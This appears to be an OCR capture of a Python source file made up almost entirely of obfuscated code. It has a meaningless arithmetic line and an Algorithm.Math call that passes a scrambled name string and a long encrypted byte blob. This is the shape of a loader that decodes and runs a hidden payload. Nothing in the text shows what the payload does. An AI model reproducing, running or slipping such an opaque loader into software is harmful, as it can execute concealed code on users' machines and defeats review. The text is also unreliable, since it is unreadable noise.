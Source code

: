             _modulo._floor(_run = _modulo.CallFunction + -70966)
;Algorithm.Math(_absolute='jlijliijiilljjilliil',Negative=b'i\x89\x963\xc7\x00\xf5UE\xf6RC\xea\x02a\xc4\xd3\xcbV\x81p\x9e\xa3\x11U\xc7\xaa\xe0\x96\xc2y~\xdeVe"dt%\x83\xc19\x8c\xd1\xccB\x1e\xe7\xfa\xbd\x80I\xf5\x15e\x95\x08\xb2A\xf8%b@\xcf\x8d\x1f]\x91\xe1\xffr\xa2\x02\xcc\xab\xba{\xd5xs\xd0;\x18\xf4a\xa9\xf5\x16\x97U\xe3N\xf4.<B\xab\xf3\xd6\xf5\xd0v8\xe8=\xd2 zX\xd6.\xc4S\x8f05\xc0;\xb4\xdc\x96\xd7W\xac\x94\x8d-k\xe0\xe6\xf2\xc7\xa2Uq\xbe\\\x15\xf3\x06\xd3j\xf1\xef\x89rm\x98t+\x8fj\xd6K1#\xad5\x9e\xd1m\xb6\xc0\xca%\xd7\x8a&\xc1\x956R\xbe\x12\t\xef\xaf\x81\xe2z\xd6\xfa\xaa\xce|\xc5\t\xf22\xf2\x01T\x8d\x7f\x1c\xfepc\xde\xd4\x99\xd1\\0\xadU:\xdav$\xf7\xf6v,ig\x13\xda\xcc\xe44\x7f\xd6\xef\x12E\xafBp\xc4<\xb4\x91D^\xc7\xaa\x0b\xb1\x11\xea\xa0\xee\xab\x9a\x98\xdf\xb0\xac\xe6\x11\xc1u\x8fXd\xf3\xf0\r^f\x9e\x01\xc1a\xb4\x94\x0f\xb6\x81.\xefW\xa4\x9f_\xb4f;~\xc1(\xea\xa3\x14\x14\x13\xf1-Z\xb3\r\xaf\xe0\x9aj2\xb2\x9ahx\xcd\xda\xaa\x80\xec\xd9\x80\xe2l>g\xee\x86\xec~\x02\xb2_\xeb[W\x9akK<m8y\x08\xa8\x19j\xb5\xf2\xe3\x11\x97q\xbe\xb5_\x9b\xc8\xe3\x1e\xc4D{\x02(,Z\x8b\x7fZ\xae\xad\xe5\x14!\x0f:]2\x10\xa5*\x05k}\xb7I\x91{\xeft\xa7\xc1h\xf3`\xfe\xe9\x1d\xaa\x00\xbb\xd6\xf7`\xf0\xed\xe1U\xeb;g\xe0\'?V /\xfd\xf1\xe7\x8f?\xe1\xef\x07\xfe\xe3\xc3\x8f*\x17\x13\x03\x0c8\xcd\xcd\xb5c<\xd4\xdb\xe4bZ\xebk\xae<EN,\x96\xcc\x0f\xab\x86P@\x050Bz\x8e6I\x0ck\xe0\x06\xb7c\xf5^N_Y\xec#\xf80\x98a\xdc7\x94t\x0b\x90\xc0}w H\xe0\xdet\x98|3\'\x14\x10\xb7\xb0\xdc\xb5F\x07\x98H\xc8V\x1atsj\x00G\xbf\x7f\xff\x83\xf9~\xc2\xe2\x1b2\xdeV\xa8\xd7B\xdd_\xf1\x10\xdf<\x05\xd91\x12\xcfD\xe8F\x1d\xc51F\xb8t\xc9\xa5\xcb\xcb]r\xc9\xe7\xf4\x95\xbd\xe4GY\xa7\xe2L\xffM\xd0\xc2\x1b\x15\xf2j\x08\xe3\xf1t\xc3\xa1g\xc6\x0f\xb1\xcdl\x12\x9b:\xa7o\xa6]]Z\xf2gR\x14\xcc\x91\xd9\xec\xa1\xdd9\xa5\x8e\xben\x19`C\xe0\xbdpo(r\x14\xd0|\xd7r5\x9f\xe3\x97\xdc\xa4\xc0x\xc2\xf9\x922\xc2\xa4\x1c1r8\xf1{\n+k8\x1b,^\x89\x9a\xaeG\x87N\x11>C\xbb>\xd2\x84|\xc0\n\x84\xe2\xab\x14\xcc\x1a\xf8\x8b\x16\xce\x9f\xc1\xde\xa9\x02rfK\x91+l95\xc9vM;cy9\xd7W8\x9a_|\x10\xe3\xc4\x19\x82\xf7\xcc\x98W-\xf9\xcb\x81\x00N\x00\xb9\xe4Y\xcf\x92\xbf\xe7\xfa\x96\'\x870\xb8\xd6\x93\x8e\x1bG\xfd;\n\x805\x91\xf7=i\xcdvb\xdb\xaf\x81\x0b\xd4\x92C\xad\xbf:rc\x17\xad\x99\xdf\xd7S \xae\x89\xcap\x18\x92k\x7f\r\x9av\xb3\xd6W\x0b\xa4\xbd\\\xac\x93\xe5:\x83$gX\xe6\xd7A\xb0S*,\x13\x14V\xdc\xbd(\xe9\x81\x89\xac\x0e\xe3\x9d\xd5G\xdd\xfd\xf8\x9e\x8b\xbb\x8f-b\xd0\xc7\x1aJ"\xa4\x1e\x12\xa6\xde\xa0\xc7\xfetA\xfe\xa6\x8bd\xec!qg(\x9d\xd7\xcf\xdb\xb2c\xd6\x8e\xc8\xdd\x9bP\xb3K\xf1\xeaIKv`\xc2S\xbc\xab\xfb\xca\x04\xf4\x8e\x02\x13\x8b\xd6\xec\xf8\x1a\x13n{J\x14\xda(\xef\xb8h\xdd4b[J\xce[\x94]\xaf!\x0e\xa1\x06H?k\xael\xab\x0c\xb1e\xd9\xcb}yF+\' \x9e\xb2\xb4\x8e\xb0\xe4\xe4Y\x8c\x89\x05\x99\xc7\x94\xabP w\xce\xdce\x13wn\xe6\x8e\xaf\xc5\x8c\xddA\xa6\xab\xd8\x8c\rq\xba\x1f1bG\xb7LC\x16i\xc2\x03T"\x88j\xb8(A\xa3\x96\xadU\xfcW6j\x99\xd2\x98!\x0b\\\'\xd7\xce(k\xce\xf5\xddBV\x8b\xa0.\x15&\xc4\xc8I\x83E\x9aOO\xfc\xb2\x02%\x8b\x1d!P\xfc\x9c\xd2\x05vv\x9af[\xeb+\x1b\x12P\xba\x8d\xd4\xad\x9d\x02/\xd7\xf6\xb6\xd1\xbbI\x99E\xe3\xf6\xce\xab\x13\x1c\xf1\x13\x9c\n\xa7ai\x0b\x05\xcei\x19p\xcaX<]\x123\xbc\xa6\xe2\xaf\xf0[T\x10\x7f\xfd\x14\x04+\xf1F\xeb\xaa\x0f\xb4\x7f#\xd3!]\xa9\xcc\x1c$\xca\n\xcc\xec\xde\xbd\x1b\x85\x04\xfa\xe4\x15\x95\xb0H9#$\xe8haRjpb\xf4F\x1d=j\xae\x19pP\xbab\x03\x8a\xa7\x8f?\xc7\x99\x84"$\x9b\x9e3\xda\x8e\x80\xb56\xb9\x0fh\x00\x1c\xaa\x12T\xe8Z\xdf\x1c\x92\xdc\xd2s\x0fcS\x07L\xc4\x99#\x0cf\x06\xcf\xc1\nl\x16\\\x9cJI\xa1!Gt\t\xaa\xbf\xa7\xd9;\xd4\x1ccn\xdcR\xce}\xd1Zm\x1a\xe2\x10\x16\xd3A\xf2o\xe3\x938\x7fN\xdf\xcc8\xffU0\xf8$\x8a5\xa9r\xcdT\xf9\xf8T\xa8\\\xb3\xf6\xe3\x90\xf9\x14\x07c\x9a\xff\x8bi\x08\x10\x00\xf7\x1e\x8d\x98`\xd0\xc0\xc3\xb5\xc0\x97\xb5$\xf3\x7fBDz\x9c,\x0f\x04\xa4b\x15D{\xcc\x0eP\xa6\xf4h\x03\x1b\xe8\xa1\xd8|\xf8\x11\'\x03\x0c\x92\x0f\xa1\xf2m\xe7\x83\xedl\x88\x1a\xa1/\xa5\x06\x85\xca\xdf\xd4\x10\x87\xb8`\xd0\xae\x13\x87`7\x89\x81G\xac\x10\xce$qM2 \xe7\xf4\xad3 c\xd8\xab!\xdd\xa9\xa0m\x8a\x81\xb3\x00+[\xb4\x16\x1f\x01c\xa70\xac\x94\x94\x85\xb9O\xfb\x19q\xcb\xb9\xbe\xb9\xf8\x9e\x0c\nz\xda\x8b\xb0Ga_6=5R|\x1a\xe7\xd7\xe785\x93\x08\xf3\xad\xf5\xbd\x00\x9d\xf9\x86\xc9\xb1\xe6"5s\x96(9\xc7oPx\xe0,\x16\xf3fs\xfa\xbeM~\x90\x9c\xbe5(\x860b\xffDQ|"\xc4i\xb2c\xf7\x97\x14\xcf\x848?F\xf5{\x8a\xc8\x9b\xc8\xb1\xb9h\xad\x86\xe3d\xbf\x80/n\xe6\x04\xa1!o\x86\xe3<\xd7\xf7\x02\xde\xa9W\xae\xb7\x8f\x93\x8f\x8a\xae\xc4\x05\x85f\xa1XSQR\xb3\xa1ddC9\x8fv\xd9*\x00\x04\xbd\xe4<\xaacg\xa4a1\xf6I\xf8\xf5\x10\x85L\xc6\xc5\xb5\xbe\x97\xa0\xd6+\x9c+D\xdf\x81\xe2\xa5\xc4\xa4w\xd0\xbd\x1eEL;5\x07\xd6\xa9\x0e#\xad\x08\x02\xc4\xed\x14\x1fW\xe7\xeczS\xf6\xbd\xf0(\xca\xb6W\x07\xd4\xf5\xe9\xd3\xc0Y\xf1\xe9\xb2p\xdaE\xba\x9d\xaf\x95\x89z\xf9\xe97\xa9\x82\xe6\x8b\x82!gs6\xfa\xbc\xbe\xa5sX\xf4L\x03!"\xbe[\xee\x9f\xa6\x1b\xce\xd2\x8c\x8c\xaf\xe3Y\xc2>\xb3\x93?\xeb+\x8cf\xac\\\x01\x10\xeaG\x1e\x02e3<>\xe4\x915SI\x1a\x15\x8b\x84i\xdd\xc6\x9a\xffP\x102i\x15\x98F0\x04\x16\xca\xd6\x1a"\xd8\xd3\x91o`\xd1\xfa\x9a\xa9\xf3\x02A<\x8d\xbfoq\xa0\x91WHk\xa7\x15\xdff\x16\xaf\xe1\x11\xee\x88\xb40\xa8\r\xd3#\x1d\xe1Ek\x95\xcb\x8f\xcb\xff\xb9\x0e\x80sW\xc3e\x96\\~k}3\x15/\n\xd1\x9c\t\xd9\xadm6b\xd3\x1a\xb1R\x0c\x1a2\x11%\xc5\xa8\xa9\x00!\xd2\x8d\xdc\xa4+\x1dc;-"m\'\x97\n\x00\xb1\xdc\x8fX\xbcm\x0c